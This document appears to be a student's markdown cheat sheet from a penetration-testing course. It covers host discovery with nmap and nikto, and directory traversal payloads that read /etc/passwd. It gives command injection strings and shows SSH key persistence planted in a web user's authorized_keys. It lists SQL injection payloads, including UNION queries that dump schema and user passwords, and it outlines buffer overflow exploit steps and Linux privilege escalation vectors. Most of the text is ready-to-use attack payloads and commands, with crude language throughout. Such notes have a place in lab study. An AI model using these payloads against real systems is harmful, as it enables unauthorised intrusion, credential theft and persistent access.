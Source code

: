 # *****SHITS VIOLENTLY**** 💯
### Host Discovery
- Narrow the scope 
  - ping sweep (see whats out there maybe cuz huge subnet)
    - `for i in {1..254} ;do (ping -c x.x.x.x | grep "bytes from" &) ;done`
  - now can enumerate the hosts, nmap
    - nmap the well-known ports, notice some important services
      - say it's http, you can use those scripts, some examples below:
      - `nmap -v -sT -Pn -T4 --script http-robots.txt.nse X.X.X.X`
      - `nmap -v -sT -Pn -T4 --script http-enum.nse X.X.X.X`
        - may need `=` connecting "--script" with "http-blahblah"
      - `nikto -h X.X.X.X`
- use web exploitation tools (view source, sql, inspect element, etc) ***HE SAID SOMETHING ABOUT CHANGING OPACITY, CODE COULD BE BLACK AND/OR WHITE IN PAGE SRC OR CONSOLE THAT WOULD'T NORMALLY BE VISIBLE***

### Web Exploitation
- Directory Traversal - information
  - ../../../../../../../../etc/passwd
  - ../../../../../../../../etc/group
  - ../../../../../../../../etc/hosts
  - ../../../../../../../../etc/networks
  - ../../../../../../../../etc/resolv.conf
- Cmd Injection - Information/Access
  - `; id`
  - `; whoami`
  - `; cat`
  - `; <CMD>`
- want to upload your SSH key to user that you are home directory
  - find the default home directoru, for the user, based off of /etc/passwd
    - `www-data:x:33:33:www-data:/var/www:/bin/bash` 
  - generate your own ssh keys 
    - `@linops: ssh-keygen -t rsa -b 4096` 
      - set no password
      - saves public key in /home/student/.ssh/id_rsa.pub
        - **dont use privat key dumbass**
      - `cat /home/student/.ssh/id_rsa.pub
      - copy the text and save it to put it on the vulnerable web stuff
  - utilizing command injection,
  - `; ls -la /var/www` to see what's there
    - if /.ssh directory is not there, create it
    - `; mkdir var/www//.ssh`
  - `; touch /var/www/.ssh/authorized_keys`
  - `; ls -la /var/www/.ssh` - **ALWAYS CHECK TO MAKE SURE THE THINGS YOU DID ACTUALLY HAPPENED**
  - `; echo "(id_rsa.pub conents)" >> /var/www/.ssh/authorized_keys`
  - `ssh -i .ssh/id_rsa www-data@X.X.X.X`
    - www-data being the user that you are when you're on the webpage
- Good walkthrough for all this on **Web Exploitation Day 1** 
- POST method = input field box 
  - `test' or 1='1`
  - `test' or 1='1;`
  - `test' or 1='1; #`
  - `test' or 1='1; --`
   - Can also try `OR` instead of `or` cuz shit is finnickyfuct
  - throw it in both fields
  - see if it breaks?
- GET method = url thing
  - information may be different thatn POST method
  - can keep interacting with the page to see how the url changes
  - blahblahblah.php?Selection=**1**&submitblahblah
    - see that 1 changes to 2 or 3 and stuff 
      - .php?Selection=1 or 1=1
        - %20 represents a space in a URL field
      - .php?Selection=2 or 1=1
        - and 3 and 4 and so on
          - different syntaxes `=2 or 1= 1;` `=2 or 1=1; #` and stuff same shit as POST method
  - GOLDEN STATEMENT
    - on vulnerable page, 
      - Selection=2 UNION select table_schema,table_name,column_name from information.schema.columns 
      - columns = Table, This table exists within the information_schema database
      - table_schema = Column, List out database names 
      - Column_name = Column, List out the column names
        - see that there's a column name thing called session, with column names (middle column) from user table (right)
        - UNION select 1,2,3,4,5,6 #
        - UNION select 1,2,3 #
          - let's say 2 showed 4 showed and 6 showed
          - UNION select 1,table_schema,3,table_name,5,column_name from information_schema.columns
            - put the things we wanted in their respective fields and filled in the rest with placeholder numbers
        - UNION select id,name,pass from session.user

### Reverse Engineering / Exploit Development
- static analysis : file, strings
- Behavioral analysis: run the file (what normal looks like)
---
- find the offset 
  - gdb, buffer overflow pattern generator 
- Validate EIP with B
- crafted exploit
  - offset
  - EIP/JMP ESP placeholder
  - NOP sled
- generate shellcode
- find JMP ESP from the **Target Machine's** memory 
  - `env -gdb <program name>` 
- replace EIP/JMP ESP placeholder with valid JMP ESP memory address
- verify exploit
  - offset
  - JMP ESP (Big endian to Little endian)
  - NOP sled
  - shell code
  - Does sudo matter? yes. Need to run program as sudo to invoke root privileges
  
### Exploiting tings 
- SUID/SGID
- cron
- run-parts
- "." in path
- /etc/sudoers
- sudo -l 
- GTFObins
- /var/tmp and/or /tmp/

















